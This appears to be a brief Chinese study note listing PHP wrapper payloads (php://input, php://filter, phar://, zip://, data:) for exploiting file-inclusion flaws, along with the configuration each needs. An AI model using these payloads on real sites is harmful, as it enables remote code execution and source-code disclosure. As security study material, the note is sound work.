 # 伪协议
## 参考

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

## php://input

### 利用条件

​	- allow_url_include = On。
​	- 对allow_url_fopen不做要求。

```
index.php
?file=php://input
POST:
<? phpinfo();?>
```

## php://filter

filter的过滤器有很多。
```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

## phar://

(PHP 5 >= 5.3.0, PHP 7, PECL phar >= 1.0.0)
```
index.php?file=phar://test.zip/phpinfo.txt
```

## zip://
(PHP 5 >= 5.2.0, PHP 7, PECL zip >= 1.1.0)
绝对路径，编码`#`

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

## data:
(php>=php5.2, allow_url_fopen = On, allow_url_include = On)
```
index.php?file=data:text/plain,<?php phpinfo();?>
```